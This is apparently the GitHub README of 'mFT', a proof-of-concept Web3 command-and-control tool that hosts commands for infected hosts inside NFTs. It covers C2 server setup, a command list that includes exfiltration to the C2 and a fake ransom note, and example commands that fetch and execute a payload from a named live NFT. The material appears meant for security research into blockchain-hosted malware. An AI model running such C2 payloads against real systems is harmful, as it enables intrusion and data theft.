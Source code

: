 # mFT - Malicious Fungible Token

mFT is a Web3 based C2 PoC that leverages Non-Fungible Tokens (NFTs) as a mechanism for hosting and transmitting commands to compromised or infected hosts.

## Requirements

Install dependencies:

```bash
bundle install
```

Configure your OpenSea API Key in the `config.rb` file:

```ruby
$sea_apikey = "YOUR_API_KEY_HERE"
```

## mFT C2 (mFTC2.rb)

The C2 will start a web server which will log any data exfiltrated by mFT clients.

Custom address and port can be configured in the `config.rb` file:

```ruby
#C2 Server default IP
$c2_default_address = "0.0.0.0"

#C2 Server default Port
$c2_default_port = 4444
```

## mFT (mFT.rb)

This tool has the capability to both read and execute a malicious payload contained within an NFT. 
It also offers the functionality to provide an execution plan and generate custom payloads for specific purposes. 
Furthermore, if required, the tool can list all NFTs associated with a given address and retrieve detailed information about each one individually.

```ruby
          _____ _____           _ _ _     _   ___    _____ _ _         _   
    _____|   __|_   _|   ___   | | | |___| |_|_  |  |     | |_|___ ___| |_ 
   |     |   __| | |    |___|  | | | | -_| . |_  |  |   --| | | -_|   |  _|
   |_|_|_|__|    |_|           |_____|___|___|___|  |_____|_|_|___|_|_|_|                                                                   
                                      mFT - Client v0.01 - Mauro Eldritch     

Usage: mFT [options]
    -g, --generate                              Generate a malicious payload
    -x ADDRESS,IDENTIFIER,BLOCKCHAIN,
        --execute                               Execute a specific NFT's malicious payload
    -d ADDRESS,IDENTIFIER,BLOCKCHAIN,
        --decode                                Decode a specific NFT's malicious payload
    -l, --list ACCOUNT,BLOCKCHAIN               List account NFTs
    -i ADDRESS,IDENTIFIER,BLOCKCHAIN,
        --info                                  Get details for a specific NFT
```

### C2 Commands List

- `id`: Grabs hostname and IP address.
- `exfil`: Attempts to exfiltrate information via a POST request against the C2 server.
- `encrypt`: Dummy command which should encrypt the filesystem, but only creates a fake ransom note on the desktop.
- `shell`: Dummy command which should open a reverse shell **(not implemented)**.
- `wipe`: Dummy command which should wipe the filesystem **(not implemented)**.

### Test Contract & NFT

A test collection was published for users to run local tests. Use the NFT Address `0xd838b011c90643b6623393a94405a5e3c199b1fc` with ID `1` or `2` and `ethereum` blockchain on the examples below. The collection features my golden retriever and partner in crime Leopoldo, better known as "Golden Locker" or "*Treat* Actor" in the underground.

- NFTs: https://opensea.io/assets/ethereum/0xd838b011c90643b6623393a94405a5e3c199b1fc/1 & https://opensea.io/assets/ethereum/0xd838b011c90643b6623393a94405a5e3c199b1fc/2
- Holder (my test account): `0x942773F094f0C170AB8835e28f9B0b0b223e043A`
- Collection: https://opensea.io/collection/malicious-fungible-tokens 
- Contract: https://etherscan.io/token/0xd838b011c90643b6623393a94405a5e3c199b1fc 

### Examples:

```bash
#Note: Blockchain argument is optional for all cases. Default value: "ethereum".

#Run C2 Server
ruby mFTC2.rb

#Generate a payload interactively
ruby mFT.rb -g

#List all NFTs from a given address
ruby mFT.rb -l "0x942773F094f0C170AB8835e28f9B0b0b223e043A"

#Decode and explain a payload step by step ("2" can be used as the second parameter)
ruby mFT.rb --decode "0xd838b011c90643b6623393a94405a5e3c199b1fc","1"

#Execute a payload ("2" can be used as the second parameter)
ruby mFT.rb --execute "0xd838b011c90643b6623393a94405a5e3c199b1fc","1"

#Get information for a specific NFT ("2" can be used as the second parameter)
ruby mFT.rb --info "0xd838b011c90643b6623393a94405a5e3c199b1fc","1"
```

## See also

- The Hacker News - EtherHiding: https://thehackernews.com/2023/10/binances-smart-chain-exploited-in-new.html
- Guardio Labs - EtherHiding: https://labs.guard.io/etherhiding-hiding-web2-malicious-code-in-web3-smart-contracts-65ea78efad16